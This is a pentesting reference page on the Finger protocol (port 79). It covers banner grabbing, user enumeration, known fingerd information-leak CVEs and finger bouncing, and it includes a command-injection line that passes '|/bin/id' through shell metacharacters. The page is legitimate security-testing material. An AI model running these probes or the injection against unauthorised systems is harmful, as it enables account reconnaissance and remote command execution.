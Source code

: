 ```yaml
---
title: "Finger - 79"
description: "Name/Finger Enumeration for Pentesting"
weight: 79
---
```

# Finger

{{<hint info>}}
Finger user information protocol.

**Default Port**: 79
{{</hint>}}

The Finger User Information Protocol ([RFC 1288](https://tools.ietf.org/html/rfc1288)),
is a simple protocol that provides
an interface to a remote user information program (RUIP).
[^rfc-1288]

## Banner Grabbing

#### Telnet

```sh
telnet {{< param "m.RHOST" >}} 79
```

#### Netcat
```sh
echo "root" | nc -n {{< param "m.RHOST" >}} 79
```

## Enumeration

### Tools

- [PentestMonkey - finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

### Fast Enum

```sh
for q in 'root' 'admin' 'user' '0' "'a b c d e f g h'" '|/bin/id';do echo "FINGER: $q"; finger "$q@{{< param "m.RHOST" >}}"; echo -e "\n";done
```

#### Finger [^finger]

List logged users.

```sh
finger @{{< param "m.RHOST" >}}
```
Finger a specific user.
```sh
finger -l root@{{< param "m.RHOST" >}}
```
Enumerate users containing `user`.
```sh
finger -l user@{{< param "m.RHOST" >}}
```

{{<hint info>}}
Try other words as: `admin`, `account` or `project`.
{{</hint>}}

{{<details "Parameters">}}
- `-l`: Multi-line format. Displays all the information.
{{</details>}}

### Finger Zero [^cve-1999-0197]

`fingerd` may respond to `finger 0@<host>`
with information on some user accounts.

```sh
finger 0@{{< param "m.RHOST" >}}
```

### Finger 'a b c d e f g h' [^cve-2001-1503]

`fingerd` may respond to `'a b c d e f g h'@<host>`
with information on all accounts.

```sh
finger 'a b c d e f g h'@{{< param "m.RHOST" >}}
```

## Finger Bouncing [^finger-bouncing]

`finger` can be used to relay a request
to a different host
as if it were sent from that machine.

```sh
finger @{{< param "m.RHOST" >}}@10.10.10.4
```

```sh
finger root@{{< param "m.RHOST" >}}@10.10.10.4
```

## Command Execution [^cve-1999-0152]

`fingerd` allows remote command execution
through shell metacharacters.

```sh
finger "|/bin/id@{{< param "m.RHOST" >}}"
```

## Finger Exploits Search

Refer to [Exploits Search]({{< ref "exploits-search">}})

[^rfc-1288]: “RFC 1288 - The Finger User Information Protocol.” IETF Tools, https://tools.ietf.org/html/rfc1288.
[^finger]: “Finger(1): User Info Lookup Program.” Linux Documentation, https://linux.die.net/man/1/finger.
[^cve-1999-0197]: “CVE - CVE-1999-0197.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=1999-0197.
[^cve-2001-1503]: “CVE - CVE-2001-1503.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-1503.
[^finger-bouncing]: “‘Solaris 2.7 Allows Finger Bouncing’ .” SecuriTeam, 15 Jan. 1999, https://securiteam.com/exploits/2BUQ2RFQ0I/.
[^cve-1999-0152]: “CVE - CVE-1999-0152.” CVE -  Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0152.
